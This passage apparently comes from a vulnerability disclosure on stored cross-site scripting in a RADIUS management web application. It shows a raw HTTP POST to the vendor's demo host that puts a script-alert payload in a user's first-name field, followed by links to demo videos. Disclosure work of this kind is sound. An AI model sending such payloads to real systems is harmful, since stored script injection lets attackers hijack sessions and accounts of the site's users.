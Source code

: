 ```http
-----------------------------408088260618922419663198838811--
```

### Adding User Accounts

```http
POST /user.php?cont=update_user HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 240
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/user.php?cont=edit_user
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

firstname=%3Cscript%3Ealert%28%221d8%22%29%3C%2Fscript%3E&lastname=n&address=n&city=Tampa&zip=9&country=United+States&state=California&phone=56574121&mobile=875412151&email=&company=&taxid=&lang=English&alertemail=1&alertsms=1&Submit=Submit
```

## Demo Videos

By inserting an alert("text"); box in the fields listed above, we're able to exploit this vulnerability as seen in the following gifs:

* [Dropbox - ap-xss-2021-03-19_22.26.52.mkv](https://www.dropbox.com/s/h47gjpn291pthyc/ap-xss-2021-03-19_22.26.52.mkv?dl=0)
  
* [Dropbox - manager-xss-2021-03-19_22.56.25.mkv](https://www.dropbox.com/s/ayxxt54tr8w25hv/manager-xss-2021-03-19_22.56.25.mkv?dl=0)
  
* [Dropbox - nas-xss-2021-03-19_21.57.53.mkv](https://www.dropbox.com/s/wtowrw0e269tzs2/nas-xss-2021-03-19_21.57.53.mkv?dl=0)
  
* [Dropbox - service-plan-xss.mkv](https://www.dropbox.com/s/m6u2nou03tog4mv/service-plan-xss.mkv?dl=0)
  
* [Dropbox - storedxss-manageradd-2021-03-20_00.38.33.mkv](https://www.dropbox.com/s/0aszx4mwyzs4krp/storedxss-manageradd-2021-03-20_00.38.33.mkv?dl=0)
  
* [Dropbox - xss-2021-03-19_21.10.02.mkv ](https://www.dropbox.com/s/brbm10vhfirs097/xss-2021-03-19_21.10.02.mkv?dl=0)
  